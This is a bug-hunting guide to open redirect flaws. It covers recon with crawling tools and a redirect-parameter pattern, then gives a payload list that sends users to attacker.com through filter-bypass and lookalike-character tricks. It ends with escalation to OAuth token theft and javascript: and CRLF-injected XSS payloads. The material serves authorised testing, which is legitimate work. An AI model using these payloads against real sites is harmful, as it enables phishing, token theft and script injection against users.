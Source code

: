 ```yaml
---
layout: post
title: Open Redirection Guide
categories: bughunting 
---
```


### Identify:
* [waybackurls](https://github.com/tomnomnom/waybackurls) + [hakrawler](https://github.com/hakluke/hakrawler) + [gf](https://github.com/tomnomnom/gf)
	
	*1*. ``cat subdomains | waybackurls | tee -a urls``
	*2*. ``cat subdomains | hakrawler -depth 3 -plain | tee -a urls``
	*3*. ``gf redirect urls``

	using ``redirect.json``:
```json
{
    "flags" : "-HanrE",
    "pattern" : "url=|rt=|cgi-bin/redirect.cgi|continue=|dest=|destination=|go=|out=|redir=|redirect_uri=|redirect_url=|return=|return_path=|returnTo=|rurl=|target=|view=|from_url=|load_url=|file_url=|page_url=|file_name=|page=|folder=|folder_url=|login_url=|img_url=|return_url=|return_to=|next=|redirect=|redirect_to=|logout=|checkout=|checkout_url=|goto=|next_page=|file=|load_file="
}
```
* Google dorks
``site:domain.com inrul:[PARAMETER]`` using the [parameter list](https://github.com/victoni/Bug-Bounty-Scripts/blob/master/open_redirection_parameters.txt)
* Manual inspection by navigating the webapp and intercepting the requests


### Exploit:
```
* ?redirect=http://example.com
* ?redirect=https://company.com.attacker.com
* ?redirect=https://company.com@attacker.com
* ?redirect=//attacker.com
* ?redirect=http://attacker.com#company.com
* ?redirect=http://attacker.com?company.com
* ?redirect=http://attacker.com/company.com
* ?redirect=http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ

Using special characters:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿ 。
```
## Escalating to other vulnerabilities:
 [Source](https://twitter.com/LooseSecurity/status/1120638007760117760)
```
Open Redirect + Miconfigured OAuth App => OAuth Token Stealing
Open Redirect + Filtered SSRF => SSRF
Open Redirect + CRLFi => XSS
Open Redirect + javascript URI => XSS
```

Escalate to XSS
* `` ?redirect=javascript:alert(1)``
* `` ?redirect=javascript:prompt(1)``

Escalate to XSS using CRLFi
* ``?redirect=java%0d%0ascript%0d%0a:alert(0)``
